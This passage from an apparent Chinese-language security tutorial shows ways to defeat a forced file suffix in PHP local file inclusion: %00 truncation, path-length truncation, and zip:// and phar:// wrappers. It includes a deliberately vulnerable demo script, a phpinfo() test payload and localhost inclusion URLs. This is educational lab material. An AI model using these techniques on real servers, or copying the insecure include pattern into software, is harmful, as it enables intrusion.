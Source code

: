 **第一种方法：%00截断**
- 前提：PHP<5.3.4
- magic_quotes_gpc = Off

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210527153839668.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

![在这里插入图片描述](https://img-blog.csdnimg.cn/2021052715384856.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

第二种方法：长度截断
- 前提：PHP版本<=5.2.?
- 操作系统对于目录字符串存在长度限制：Windows下目录最大长度为256字节，超出的部分会被丢弃掉；Linux下目录最大长度为4096字节，超出的部分会被丢弃掉；例如，windows操作系统，`.`超过256个字节即可，Linux下只需不断重复`./`即可

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210527154820642.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

**第三种方法：zip/phar协议**

```php
<?php
highlight_file(__FILE__);
if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file.".jpg");
}else{
    echo "Can you find me???"
}
?>
```
很明显看出来这是个文件包含，但是将传递的文件名后面强制加了一个".jpg"的后缀，导致了无法任意文件包含
首先我们新建一个shell.php文件，内容如下：

```php
<?php phpinfo();?>
```

- 并将其改名为test.jpg，因为上面的代码只能包含 jpg 文件嘛
- 然后将其压缩成zip包，压缩的时候注意要选择only store之类的选项，防止数据被压缩
- 然后将这个 zip 的后缀改为 jpg 之类的(有时不改直接用zip后缀也可以成功)，目的是可以成功上传，之后我们就可以通过：`http://localhost/H3rmesk1t/demo.php?file=zip://D:/Users/86138/Desktop/shell.zip%23shell`或者`http://localhost/H3rmesk1t/demo.php?file=zip://D:/Users/86138/Desktop/shell.jpg%23shell`或者`http://localhost/H3rmesk1t/demo.php?file=phar://D:/Users/86138/Desktop/shell.zip/shell`或者`http://localhost/H3rmesk1t/demo.php?file=phar://D:/Users/86138/Desktop/shell.jpg/shell`

![在这里插入图片描述](https://img-blog.csdnimg.cn/2021052716515172.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210527165359687.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210527165519527.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/2021052716553289.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

- zip://文件路径/zip文件名称#压缩包内的文件名称 （使用时注意将#号进行URL编码）
- phar://文件路径/phar文件名称/phar内的文件名称
- phar://协议与zip://类似，同样可以访问zip格式压缩包内容
### Session文件包含漏洞
